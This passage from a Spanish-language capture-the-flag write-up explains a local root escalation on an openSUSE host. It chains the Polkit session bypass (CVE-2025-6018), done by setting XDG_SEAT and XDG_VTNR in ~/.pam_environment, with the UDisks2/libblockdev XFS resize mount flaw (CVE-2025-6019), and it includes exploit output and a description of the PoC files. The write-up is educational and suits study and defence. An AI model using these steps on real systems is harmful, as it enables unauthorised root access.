[*] Starting Background Trigger (Wait 2s)...
[*] Starting Foreground Catcher...
[*] HOLD TIGHT. ROOT SHELL INCOMING.
[*] Sniper started. Waiting for ANY loop mount...
[*] (BG) Setting up loop device...
[*] (BG) Triggering Resize on /org/freedesktop/UDisks2/block_devices/loop0...

[!!!] HIT! Mounted at: /tmp/blockdev.NTXKL3
pterodactyl:/tmp# whoami
root
```

Y tenemos root.

## Post-Root: CVE, D-Bus y Polkit.

Tras ejecutar el PoC del `CVE-2025-6019` y conseguir el shell como root, surgen varias preguntas:

> _**Cómo es posible que estemos explotando una vulnerabilidad que nos permita llegar a ser root en un programa que ni podemos ejecutar como root (no tenemos permisos sudo ni hay SUID bit o capabilities), ni se está ejecutando como root (no aparece al usar `ps aux`)?**_

La respuesta es el [**D-Bus**](https://en.wikipedia.org/wiki/D-Bus). En Linux, los procesos están aislados por seguridad, y si un proceso necesita hacer algo importante, no puede hacerlo directamente, necesita pedírselo al sistema. El D-Bus es el sistema de mensajería interna (IPC) de Linux que permite que los procesos se comuniquen entre sí. Los servicios pueden registrarse en los D-Bus y exponer funcionalidades y señales y permitir que otros procesos las soliciten. Al registrarse, también pueden pedir que el sistema les "despierte" cuando llegue una señal específica al D-Bus.

En Linux hay un **System D-Bus** (global para la máquina) y otro **Session D-Bus** para cada sesión de usuario (con servicios no root).

Podemos ver qué servicios hay registrado en el **System** D-Bus con `busctl list` (para el D-Bus de la sesión actual sería `busctl --user list`):

```bash
~> busctl list

# *** Output de ANTES de ejecutar el exploit del CVE. ***

NAME                           PID PROCESS        USER         CONNECTION    UNIT                   SESSION DESCRIPTION
:1.0                             1 systemd        root         :1.0          init.scope             -       -          
:1.1                           797 systemd-logind root         :1.1          systemd-logind.service -       -          
:1.12                         1000 polkitd        polkitd      :1.12         polkit.service         -       -          
:1.15                          937 wickedd        root         :1.15         wickedd.service        -       -          
:1.187                       11484 busctl         phileasfogg3 :1.187        session-6.scope        6       -          
:1.2                           758 firewalld      root         :1.2          firewalld.service      -       -         
:1.3                           925 wickedd-auto4  root         :1.3          wickedd-auto4.service  -       -          
:1.4                           930 wickedd-dhcp6  root         :1.4          wickedd-dhcp6.service  -       -          
:1.45                        10362 systemd        phileasfogg3 :1.45         user@1002.service      -       -          
:1.5                           929 wickedd-dhcp4  root         :1.5          wickedd-dhcp4.service  -       -          
:1.6                           937 wickedd        root         :1.6          wickedd.service        -       -          
:1.7                           947 wickedd-nanny  root         :1.7          wickedd-nanny.service  -       -          
:1.8                           947 wickedd-nanny  root         :1.8          wickedd-nanny.service  -       -          
org.fedoraproject.FirewallD1   758 firewalld      root         :1.2          firewalld.service      -       -          
org.freedesktop.DBus             1 systemd        root         -             init.scope             -       -          
org.freedesktop.PolicyKit1    1000 polkitd        polkitd      :1.12         polkit.service         -       -          
org.freedesktop.UDisks2          - -              -            (activatable) -                      -       -          
org.freedesktop.hostname1        - -              -            (activatable) -                      -       -          
org.freedesktop.locale1          - -              -            (activatable) -                      -       -          
org.freedesktop.login1         797 systemd-logind root         :1.1          systemd-logind.service -       -          
org.freedesktop.systemd1         1 systemd        root         :1.0          init.scope             -       -          
org.freedesktop.timedate1        - -              -            (activatable) -                      -       -          
org.freedesktop.timesync1        - -              -            (activatable) -                      -       -          
org.opensuse.Network           937 wickedd        root         :1.6          wickedd.service        -       -          
org.opensuse.Network.AUTO4     925 wickedd-auto4  root         :1.3          wickedd-auto4.service  -       -          
org.opensuse.Network.DHCP4     929 wickedd-dhcp4  root         :1.5          wickedd-dhcp4.service  -       -          
org.opensuse.Network.DHCP6     930 wickedd-dhcp6  root         :1.4          wickedd-dhcp6.service  -       -          
org.opensuse.Network.Nanny     947 wickedd-nanny  root         :1.7          wickedd-nanny.service  -       -          
org.opensuse.Snapper             - -              -            (activatable) - 
```

Si nos fijamos, entre todo esto, vemos la siguiente línea:

```bash
NAME                           PID PROCESS        USER         CONNECTION    UNIT                   SESSION DESCRIPTION
org.freedesktop.UDisks2          - -              -            (activatable) -                      -       -          
```

UDisks2 era el servicio vulnerable, y antes de ejecutar el exploit, su `CONNECTION` está puesta a `(activatable)`, en lugar de tener un ID como el resto de servicios del D-Bus. Tampoco tiene un PID ni un usuario asociado. Esto se debe a que, aunque el servicio está registrado en el D-Bus, no está activo, ni siquiera tiene un proceso vivo, _por eso no veíamos nada relacionado con UDisks2 al usar `ps aux`_.

Como UDisks2 es un programa que opera con discos y particiones (cosa que no siempre se usa), el servicio pasa la mayor parte del tiempo inactivo, pero registrado en el D-Bus y a la espera de que un programa le mande una señal que haga que se despierte, de ahí el `(activatable)`. Cuando alguien mande un mensaje a `org.freedesktop.UDisks2`, D-Bus le dirá a `systemd` que inicie el binario de UDisks2, le asigne un PID y usuario y procese la petición, de ahí que pueda hacer cosas como root.

Y es exactamente por eso que, tras haber ejecutado el exploit, si volvemos a mirar:

```bash
NAME                           PID PROCESS        USER         CONNECTION    UNIT                   SESSION DESCRIPTION
org.freedesktop.UDisks2      13843 udisksd        root         :1.461        udisks2.service        -       -          
```

Ya existe un proceso por debajo.

> _**Ahora que sabemos por qué no lo veíamos antes y cómo y por qué el programa se despertaba (y que lo hacía como root), cómo funcionaba el CVE?**_

Partimos de que UDisks2 es un servicio y una herramienta de Linux que permite gestionar dispositivos de almacenamiento como HDDs, SSDs y demás. Ofrece, como hemos dicho, una interfaz en el D-Bus para que los programas puedan montar y desmontar particiones o formatear discos (entre otros) sin necesidad de ser root.

En UDisks2, cuando un usuario solicita redimensionar un sistema de archivos [XFS](https://es.wikipedia.org/wiki/XFS), `udisks` cede la tarea a la biblioteca `libblockdev` (la que ha detectado Trivy). Para redimensionar el fs., `libblockdev` necesita montarlo temporalmente en `/tmp`. La vulnerabilidad consiste en que ese montaje temporal se realiza sin aplicar flags de seguridad como `nosuid` (que hace que los binarios del fs. con el bit SUID/SGID no tengan tal efecto en el sistema global).

Aprovechando ese fallo, un atacante puede preparar un exploit como el sacado de Github, que contenía 4 archivos:

* `build_poc.sh`: Compila localmente `catcher` y crea `exploit.img` para subirlos al server de la víctima después.
* `exploit.sh`: Solicita a UDisks2 que redimensiona `exploit.img` e inmediatamente después inicia el `catcher`.
* `exploit.img`: Imagen XFS maliciosa con un binario bash con SUID bit puesto.
* `catcher`: Se mantiene a la escucha hasta que `libblockdev` monta la imagen para redimensionarla (sin el `nosuid`)

Al ejecutar `exploit.sh`, este pide a UDisks2 que redimensione la imagen. El `catcher` se mantiene en escucha y cuando ve que `libblockdev` ha montado el fs., inmediatamente ejecuta el shell bash con SUID que había dentro.

> _**Por qué ha fallado la primera vez? En qué consistía la solución?**_

Aquí entra en juego [Polkit](https://en.wikipedia.org/wiki/Polkit), otro sistema (que también veíamos en el D-Bus como `org.freedesktop.PolicyKit1`) encargado de controlar las autorizaciones (quién puede hacer qué). Permite establecer reglas estrictas para cada usuario sin necesidad de ejecutar todo el programa como root.

El proceso de funcionamiento de Polkit es el siguiente (p.ej para añadir una impresora):

1. La aplicación de config. manda un mensaje por D-Bus a CUPS, solicitando añadir una impresora
2. CUPS recibe la solicitud y sabe que añadir una impresora requiere permisos especiales, pero no sabe si el usuario los tiene.
3. CUPS **pregunta a Polkit** (via D-Bus): "_El usuario X quiere hacer Y acción, debería dejarle?_"
4. Polkit revisa sus reglas guardadas en `/etc/polkit-1/rules.d/` o `/usr/share/polkit-1/actions/`, de ahí puede ver varias cosas:

* Sí, el usuario tiene permiso, CUPS puede añadir la impresora.
* No, el usuario no tiene permiso, CUPS no debería añadir la impresora (aunque CUPS puede ignorarle)
* Autenticación Requerida: Puede, pero debe autenticarse (se pide contraseña y se delega la comprobación a PAM).

5. En función de lo recibido, CUPS hará una cosa u otra

Cuando lo que se quiere es montar o trabajar con discos, la política de Polkit es clara:

* Si un usuario está conectado por SSH, se le considera "sesión inactiva" y se requiere que introduzca la contraseña de root para interactuar con el hardware. Por eso cuando se ha intentado crear el disco para redimensionarlo, Polkit nos ha parado.

```bash
phileasfogg3@pterodactyl:/tmp> ./exploit.sh 
[+] Session is Active. Polkit bypass enabled.
[*] Starting Background Trigger (Wait 2s)...
[*] Starting Foreground Catcher...
[*] HOLD TIGHT. ROOT SHELL INCOMING.
[*] Sniper started. Waiting for ANY loop mount...
[*] (BG) Setting up loop device...
==== AUTHENTICATING FOR org.freedesktop.udisks2.loop-setup ====
Authentication is required to set up a loop device
Authenticating as: root
Password: #... Pide contraseña de root
```

Para solucionar esto, hemos tenido que añadir 2 variables a `~/.pam_environment`:

* `XDG_SEAT=seat0`: Indica el "contexto de hardware", `seat0` hace referencia a teclado y ratón físicos.
* `XDG_VTNR=1`: Indica número de terminal. Se pone `tty1` en este caso, que hace referencia a la terminal común para logins GUI.

Estas dos variables en el archivo explotan otra vulnerabilidad (`CVE-2025-6018`) que engaña a PAM para que marque la sesión remota por SSH como una sesión activa:

```bash
~> loginctl show-session $XDG_SESSION_ID | grep Active
Active=yes
```

Esto hace que, al ejecutar el exploit, Polkit no nos pare a mitad, permitiéndonos cargar el filesystem con el binario de bash y finalmente obtener un shell como root.
